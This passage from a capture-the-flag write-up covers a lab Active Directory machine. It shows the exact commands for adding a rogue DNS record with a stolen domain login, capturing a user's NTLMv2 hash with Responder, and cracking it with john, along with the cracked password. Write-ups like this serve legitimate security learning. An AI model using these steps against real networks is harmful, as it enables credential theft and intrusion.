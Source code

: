 here is different things u can see `bat` command.

Okey we can grab his cache btw let me see first.

**NTLM Hash Capture via DNS Record Injection**

Used `dnstool.py` to add a fake DNS A record pointing to my machine:

```bash
python3 dnstool.py -u 'INTELLIGENCE\\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a add -r 'webabc' -d 10.10.14.36 10.10.10.248
```

or with

```bash
python3 krbrelayx/dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a add -t A -d 10.10.14.36 -r iremirem.intelligence.htb 10.10.10.248
```

Then started Responder to capture NTLM hash:

```bash
sudo responder -I tun0
```

Ted's scheduled PowerShell job triggered a request to `webabc.intelligence.htb`, leaking his NTLMv2 hash to my listener.(after waiting around 5 minutes)

![alt text](../assets/images/intelligence11.png)

lets crack it

```bash
➜  Intelligence john teg.graves_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves) 
```
